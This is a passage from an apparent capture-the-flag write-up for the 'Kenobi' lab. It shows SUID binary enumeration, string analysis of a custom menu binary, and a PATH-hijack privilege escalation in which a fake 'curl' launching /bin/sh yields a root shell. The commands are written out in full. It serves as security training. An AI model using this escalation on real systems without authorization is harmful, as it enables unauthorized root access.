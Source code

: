 ```bash
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```
3. Question `Run the binary, how many options appear?` Answer `3`
```bash
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :

```
4. Now time to do reverse. We are going to run simple command `strings /usr/bin/menu`. (As instructed)
Result shows:
```bash
** Enter your choice :
curl -I localhost
uname -r
ifconfig
```
6. So we can assume choosing first option run first command `curl -I localhost` (As instructed).So we can change it to exploit. 
7. We can simply follow instruction to create file named curl with executable permission and add the file loacation to our path. Then simply running menu and selecting first option will do the rest as it run the curl we created, we will get root shell.
```bash
kenobi@kenobi:~$ echo "/bin/sh" >curl
kenobi@kenobi:~$ chmod 777 curl
kenobi@kenobi:~$ export PATH=/home/kenobi:$PATH
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# 
```
8. Question `What is the root flag (/root/root.txt)?` Answer `********************************` 32 alphanumeric chars. Command used `cat /root/root.txt`
   
Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
